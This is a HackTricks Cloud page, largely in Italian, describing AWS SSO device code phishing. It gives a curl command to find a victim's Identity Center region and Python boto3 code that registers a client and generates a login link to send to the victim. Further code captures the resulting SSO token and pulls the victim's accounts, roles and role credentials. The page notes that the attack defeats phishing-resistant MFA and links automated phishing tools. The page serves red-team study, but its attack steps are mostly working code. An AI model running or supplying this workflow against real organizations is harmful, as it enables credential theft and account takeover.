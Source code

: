 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Inizialmente proposto in [**questo post del blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), è possibile inviare un **link** a un utente che utilizza AWS SSO che, se **l'utente accetta**, l'attaccante sarà in grado di ottenere un **token per impersonare l'utente** e accedere a tutti i ruoli a cui l'utente può accedere nel **Identity Center**.

Per eseguire questo attacco, i requisiti sono:

* La vittima deve utilizzare **Identity Center**
* L'attaccante deve conoscere il **sottodominio** utilizzato dalla vittima `<victimsub>.awsapps.com/start`

Solo con le informazioni precedenti, **l'attaccante sarà in grado di inviare un link all'utente** che, se **accettato**, concederà **all'attaccante l'accesso all'account** utente AWS.

### Attack

1. **Finding the subdomain**

Il primo passo dell'attaccante è scoprire il sottodominio che l'azienda vittima sta utilizzando nel loro Identity Center. Questo può essere fatto tramite **OSINT** o **indovinando + BF**, poiché la maggior parte delle aziende utilizzerà il proprio nome o una variazione del proprio nome qui.

Con queste informazioni, è possibile ottenere la regione in cui è stato configurato l'Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Genera il link per la vittima e invialo**

Esegui il seguente codice per generare un link di accesso AWS SSO in modo che la vittima possa autenticarsi.\
Per la demo, esegui questo codice in una console python e non uscire, poiché in seguito avrai bisogno di alcuni oggetti per ottenere il token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Invia il link generato alla vittima utilizzando le tue fantastiche abilità di ingegneria sociale!

3. **Aspetta che la vittima lo accetti**

Se la vittima era **già loggata in AWS** dovrà solo accettare di concedere i permessi, se non lo era, dovrà **accedere e poi accettare di concedere i permessi**.\
Questo è come appare il prompt al giorno d'oggi:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Ottieni il token di accesso SSO**

Se la vittima ha accettato il prompt, esegui questo codice per **generare un token SSO impersonando l'utente**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Il token di accesso SSO è **valido per 8h**.

5. **Impersonare l'utente**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing l'MFA "unphishable"

È divertente sapere che il precedente attacco **funziona anche se viene utilizzato un "MFA unphishable" (webAuth)**. Questo perché il **workflow precedente non esce mai dal dominio OAuth utilizzato**. A differenza di altri attacchi di phishing in cui l'utente deve sostituire il dominio di accesso, nel caso il workflow del codice dispositivo è preparato in modo che un **codice sia conosciuto da un dispositivo** e l'utente può accedere anche su una macchina diversa. Se accetta il prompt, il dispositivo, semplicemente **conoscendo il codice iniziale**, sarà in grado di **recuperare le credenziali** per l'utente.

Per ulteriori informazioni su questo [**controlla questo post**](https://mjg59.dreamwidth.org/62175.html).

### Strumenti Automatici

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## Riferimenti

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
